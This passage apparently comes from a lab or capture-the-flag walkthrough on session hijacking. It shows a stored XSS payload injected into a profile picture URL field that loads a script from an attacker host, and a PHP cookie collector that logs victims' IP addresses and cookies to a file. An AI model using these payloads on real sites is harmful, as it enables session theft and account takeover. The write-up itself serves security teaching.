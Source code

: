 Let's go to the `/hijacking` page:


![Pasted image 20250130175150.png](../../../../IMAGES/Pasted%20image%2020250130175150.png)

Let's fill in some random data and use this payload at the Profile Picture URL:

```js
"><script src=http://IP></script>
```

With this, we've checked that the website is indeed vulnerable to XSS, we can do the following:


Now, we can create a php server and a `script.js` file to be run remotely:

```php
<?php 
if (isset($_GET['c'])) { 
$list = explode(";", $_GET['c']); 
foreach ($list as $key => $value) { 
$cookie = urldecode($value); 
$file = fopen("cookies.txt", "a+"); 
fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n"); 
fclose($file); 
} 
} 
?>
```
